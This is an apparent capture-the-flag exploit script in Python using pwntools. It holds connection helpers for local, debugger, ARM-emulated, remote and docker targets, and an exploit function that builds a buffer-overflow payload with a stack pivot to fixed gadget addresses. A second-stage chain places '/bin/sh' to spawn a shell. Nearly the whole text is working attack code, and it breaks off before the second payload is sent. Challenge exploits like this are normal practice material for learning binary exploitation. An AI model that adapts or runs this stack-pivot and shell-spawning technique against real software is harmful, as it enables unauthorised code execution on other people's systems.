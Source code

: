 ```python

def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

def start(argv=[], *a, **kw):

    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.ARM:
        return process(['qemu-arm', '-g', '1234', '-L', '/usr/arm-linux-gnueabihf', exe.path])
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        p = remote("localhost", 1337)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "/home/app/chall"]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
0x0000000000400571
0x0000000000400577

c
'''.format(**locals())

# ==================== EXPLOIT ====================

def init():
    global p

    p = start()

def exploit():
    pivot = 0x000000000040055b
    target = p8(0x0e)
    bss = 0x602000 - 0x100
    offset = 16
    call = 0x00000000004005d0
    pop_csu = 0x00000000004005e6
    pl1 = flat(
            b'a'*offset,
            0x601028+0x8,
            pivot
            )
    input()
    sleep(4)
    p.send(pl1)
    pl2 = flat(
            bss-0x100,
            pivot,
            bss,
            pivot,
            b'/bin/sh\x00'

            )
    input("pl2")
```